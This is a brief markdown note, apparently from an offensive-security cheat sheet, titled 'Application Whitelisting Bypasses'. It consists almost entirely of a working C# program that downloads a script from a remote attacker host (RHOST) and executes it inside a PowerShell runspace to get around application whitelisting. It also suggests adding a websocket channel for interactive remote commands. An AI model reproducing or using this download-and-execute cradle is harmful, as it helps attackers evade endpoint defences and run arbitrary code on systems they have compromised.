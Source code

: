 # Application Whitelisting Bypasses
---

### PowerShell Runspace
This will allow you to execute the contents of a remote file in a PowerShell runspace. This could be improved by creating a websocket server/client to execute commands within the runspace. 
```cs
using System;
using System.Net;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace ConsoleApp3
{
    public class Program
    {
        public static void Main(string[] args)
        {
            WebClient client = new WebClient();
            var myString = client.DownloadString("http://RHOST/string.txt");
            Console.WriteLine("Command to be executed: " + myString);
            
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(myString);
            Console.WriteLine("Executing command ...");
            ps.Invoke();
            Console.WriteLine("Command executed.");
            rs.Close();
        }
    }
}
```
